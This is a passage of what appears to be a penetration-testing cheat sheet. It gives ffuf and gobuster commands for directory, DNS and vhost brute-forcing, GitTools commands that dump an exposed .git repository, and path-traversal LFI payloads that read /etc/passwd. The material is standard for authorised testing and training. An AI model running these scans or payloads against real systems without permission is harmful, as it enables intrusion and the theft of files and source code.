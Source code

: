 <pre><code class="language-c">ffuf -w /opt/seclists/Discovery/Web-Content/directory-list-1.0.txt -u http://&lt;RHOST&gt;/FUZZ -t 30 -c -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -mc 200,204,301,302,307,401,403,500 -ic -e .7z,.action,.ashx,.asp,.aspx,.backup,.bak,.bz,.c,.cgi,.conf,.config,.dat,.db,.dhtml,.do,.doc,.docm,.docx,.dot,.dotm,.go,.htm,.html,.ini,.jar,.java,.js,.js.map,.json,.jsp,.jsp.source,.jspx,.jsx,.log,.old,.pdb,.pdf,.phtm,.phtml,.pl,.py,.pyc,.pyz,.rar,.rhtml,.shtm,.shtml,.sql,.sqlite3,.svc,.tar,.tar.bz2,.tar.gz,.tsx,.txt,.wsdl,.xhtm,.xhtml,.xls,.xlsm,.xlst,.xlsx,.xltm,.xml,.zip
</code></pre>
<h4>GitTools</h4>
<pre><code class="language-c">./gitdumper.sh http://&lt;RHOST&gt;/.git/ /PATH/TO/FOLDER
./extractor.sh /PATH/TO/FOLDER/ /PATH/TO/FOLDER/
</code></pre>
<h4>Gobuster</h4>
<pre><code class="language-c">-e    // extended mode that renders the full url
-k    // skip ssl certificate validation
-r    // follow cedirects
-s    // status codes
-b    // exclude status codes
-k            // ignore certificates
--wildcard    // set wildcard option

$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://&lt;RHOST&gt;/
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://&lt;RHOST&gt;/ -x php
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://&lt;RHOST&gt;/ -x php,txt,html,js -e -s 200
$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u https://&lt;RHOST&gt;:&lt;RPORT&gt;/ -b 200 -k --wildcard
</code></pre>
<h5>Common File Extensions</h5>
<pre><code class="language-c">txt,bak,php,html,js,asp,aspx
</code></pre>
<h5>Common Picture Extensions</h5>
<pre><code class="language-c">png,jpg,jpeg,gif,bmp
</code></pre>
<h5>POST Requests</h5>
<pre><code class="language-c">gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://&lt;RHOST&gt;/api/ -e -s 200
</code></pre>
<h5>DNS Recon</h5>
<pre><code class="language-c">gobuster dns -d &lt;RHOST&gt; -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
gobuster dns -d &lt;RHOST&gt; -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
</code></pre>
<h5>VHost Discovery</h5>
<pre><code class="language-c">gobuster vhost -u &lt;RHOST&gt; -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
gobuster vhost -u &lt;RHOST&gt; -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
</code></pre>
<h5>Specifiy User Agent</h5>
<pre><code class="language-c">gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://&lt;RHOST&gt;/ -a Linux
</code></pre>
<h4>Local File Inclusion (LFI)</h4>
<pre><code class="language-c">http://&lt;RHOST&gt;/&lt;FILE&gt;.php?file=
http://&lt;RHOST&gt;/&lt;FILE&gt;.php?file=../../../../../../../../etc/passwd
http://&lt;RHOST&gt;/&lt;FILE&gt;/php?file=../../../../../../../../../../etc/passwd
</code></pre>
<h5>Until php 5.3</h5>
<pre><code class="language-c">http://&lt;RHOST&gt;/&lt;FILE&gt;/php?file=../../../../../../../../../../etc/passwd%00
</code></pre>